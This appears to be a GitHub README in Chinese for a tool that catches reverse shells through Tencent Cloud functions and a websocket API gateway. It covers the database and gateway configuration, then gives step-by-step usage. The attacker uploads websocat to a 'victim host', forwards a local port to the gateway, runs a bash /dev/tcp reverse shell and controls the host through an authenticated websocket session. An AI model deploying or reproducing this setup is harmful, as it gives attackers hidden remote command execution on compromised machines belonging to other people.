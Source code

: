 # ReverseShell
通过云函数的 websocket API 网关实现接收反弹 Shell 的功能。

## 项目配置

### 数据库配置
本项目需要一个允许外部连接的 MySQL 数据库。数据库配置语句如下：
```sql
create database SCF;
use SCF;
create table Connections (
    connectionID varchar(128) NOT NULL,
    Date datetime,
    is_user tinyint
)
```

修改 src 文件夹内所有文件中的如下变量
```
db_host = 数据库 host
db_port = 数据库端口
db_user = 数据库用户
db_pass = 数据库密码

push_back_host = 等后续配置 API 网关后填写
```

### 函数配置
1. 参照 [HTTP 代理配置](https://github.com/shimmeris/SCFProxy/tree/main/HTTP) 新建三个自定义函数，分别命名为 register, forward, delete。
2. 进入 [API 网关配置](https://console.cloud.tencent.com/apigateway/service)，新建如下配置服务

![服务](img/service.png)

3. 新建 API，前端类型选择 WS，其余默认，进入下一步
4. 开启设置注册函数、清理函数。后端类型，函数，后端超时时间分别配置为如下：

![函数配置](img/function_config.png)

5. 点击立即完成，发布服务
6. 点击生成的 api，进入信息展示页面获取如下信息，将推送地址填入文件中的 `push_back_host` 变量。

![信息](img/info.jpg)

7. 修改 transmission.py 中的 `PASSWORD` 变量，该变量将用于客户端连接 ws 后将连接认证为用户。
7. 分别复制三个文件的内容到对应的云函数中并部署。

## 使用方式
需要借助 [websocat](https://github.com/vi/websocat)。

1. 上传 websocat（或远程下载）到受害主机
2. 执行 `websocat -E --text tcp-l:127.0.0.1:12345 ws://apigatway` 转发端口
3. 反弹 shell 到本地端口 `bash -i >& /dev/tcp/127.0.0.1/12345 0>&1`（2、3 两步也可利用 & 合并成一条命令）

![反弹 shell](img/reverse_shell.jpg)

4. 攻击者连接 ws://apigate，输入 auth PASSWORD 认证为用户，之后正常发送命令即可。
![执行命令](img/cmd.jpg)

ws 连接后可执行的命令：
```shell
auth PASSWORD 将当前连接认证为用户，只有用户能接收未认证连接发送的信息
close 关闭当前连接
closeall 关闭目前存在的所有连接
```

